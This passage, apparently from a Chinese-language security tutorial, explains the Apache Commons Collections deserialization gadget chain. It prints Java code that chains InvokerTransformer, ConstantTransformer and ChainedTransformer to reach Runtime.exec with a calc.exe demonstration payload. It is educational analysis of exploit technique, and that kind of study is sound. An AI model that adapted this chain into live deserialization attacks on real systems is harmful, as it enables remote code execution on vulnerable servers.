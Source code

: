 可以这样去调用

```
        Class runtime = Class.forName("java.lang.Runtime");//获取Runtime类
        Object T0WN = new InvokerTransformer("getMethod",new Class[] {
                String.class,Class[].class},new Object[] {
                "getRuntime",null
        }).transform(runtime);//借助InvokerTransformer调用runtimeClass的getMethod方法,参数是getRuntime,最后返回的其实是一个Method对象即getRuntime方法
        Object DawnT0wn = new InvokerTransformer("invoke",new Class[]{
                Object.class,Object[].class},new Object[]{
                        null,null
        }).transform(T0WN);//借助InvokerTransformer调用T0WN的invoke方法,没有参数,最后返回的其实是DawnT0wn这个对象
        Object exec = new InvokerTransformer("exec",new Class[]{
                String.class},new Object[]{
                        "calc.exe"
        }).transform(DawnT0wn);//借助InvokerTransformer调用DawnT0wn的exec方法,参数为calc.exe,返回的自然是一个Process对象
```

- 将ConstantTransformer返回的`Runtime.class`传给第一个InvokerTransformer；
- 将第一个InvokerTransformer返回的`(Runtime.class).getMethod("getRuntime",null)`传给第二个InvokerTransformer；
- 将第二个InvokerTransformer返回的`((Runtime.class).getMethod("getRuntime",null)).invoke(null,null)`传给第三个InvokerTransformer；
- `(((Runtime.class).getMethod("getRuntime",null)).invoke(null,null)).exec("calc.exe")`是第三个InvokerTransformer的返回值。

上面只是在InvokerTransformer类中去执行任意方法

我们还需要了解两个类

- ConstantTransformer类的transform方法
- ChainedTransformer类的transform方法

先看ConstantTransformer类

![image-20211130131628264](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211130131628264.png)

它的transform方法就是直接返回其构造函数传进来的对象

在看ChainedTransformer类的transform方法

![image-20211130131713507](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211130131713507.png)

构造函数传进去一个Transformer接口的数组赋值给iTransformers,再再transform方法中变量数组中的每个transform方法,还把上一个返回的对象传入下一个的transform方法中

那我们只要把上面命令执行的代码,依次放到Transformer数组里即可,所以修改上面代码为

```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime", null
        }
        ),
        new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{
                null, null
        }
        ),
        new InvokerTransformer("exec", new Class[]{
                String.class}, new Object[]{
                "calc.exe"
        }
        )
};
ChainedTransformer chain = new ChainedTransformer(transformers);
```